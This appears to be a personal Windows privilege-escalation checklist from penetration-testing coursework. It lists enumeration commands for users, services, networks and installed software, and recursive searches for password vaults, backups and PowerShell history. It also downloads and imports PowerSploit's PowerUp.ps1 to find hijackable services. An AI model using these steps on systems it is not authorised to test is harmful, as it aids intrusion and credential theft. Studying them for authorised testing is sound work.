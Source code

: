 # Basic Windows Privilege Escalation Checklist
## Situational Awareness
* Hostname, username, current user - privileges and group memberships, current dir, common dirs, etc...
  * hostname
  * whoami
  * whoami /priv
  * whoami /groups
  * cd, dir, dir C:\, dir C:\Users, tree /F
* Existing users and groups
  * net user
  * net user User1
  * net localgroup
  * net localgroup Administrators
  * query user
* Operating system, version and architecture
  * systeminfo
* Network information
  * ipconfig /all
  * netstat -ano
  * route print
  * arp -a
* Running processes
  * tasklist
  * tasklist /svc
* Installed applications
  * WMIC
    * C:\> wmic [ENTER] product get name, version [ENTER]
    * varni kell egy kicsit, nem ad egybol eredmenyt
    * lehet erdemes redirectelni az eredmenyt egy file-ba (product get name, version > output.txt)
  * Powershell
  <pre>
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  </pre>
  * Listing C - Program Files folders
    * C:\> dir "C:\Program Files"
    * C:\> dir "C:\Program Files (x86)"
## File permissions
* cmd
<pre>
C:\> icacls "C:\Users\user1\desktop\test.exe"
C:\Users\user1\desktop\test.exe
BUILTIN\Administrators:(F)
NT AUTHORITY\SYSTEM:(F)
BUILTIN\Users:(RX)
NT AUTHORITY\Authenticated Users:(RX)
Successfully processed 1 files; Failed processing 0 files
</pre>
* powershell
<pre>
PS> Get-Acl "C:\Users\user1\desktop\test.exe"
...
</pre>
## Searching Files and Folders
* Searching files by extension
<pre>
PS> Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.conf,*.xml,*.json,*.yml,*.yaml,*.kdbx,*.bak,*.bck,*.old -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.bat,*.vbs,*.js,*.asp,*.aspx,*.js,*.ps1,*.psm1,*.php,*.jar,*.jsp -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.xlsm,*.doc,*.docx,*.docm,*.ppt,*.pptx -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.rar,*.zip,*.iso,*.tar,*.7z -File -Recurse -ErrorAction SilentlyContinue
</pre>
* Searching 'modifiable service files' (with Powersploit's PowerUp.ps1)
<pre>
PS> Invoke-WebRequest -Uri "https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" -OutFile .\PowerUp.ps1
PS> Import-Module .\PowerUp.ps1
PS> Get-ModifiableServiceFile
</pre>
## Powershell history
<pre>
PS> Get-History

PS> (Get-PSReadlineOption).HistorySavePath
C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

PS> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
</pre>
## Service Binary Hijacking
* PEN200.pdf 500. oldal...
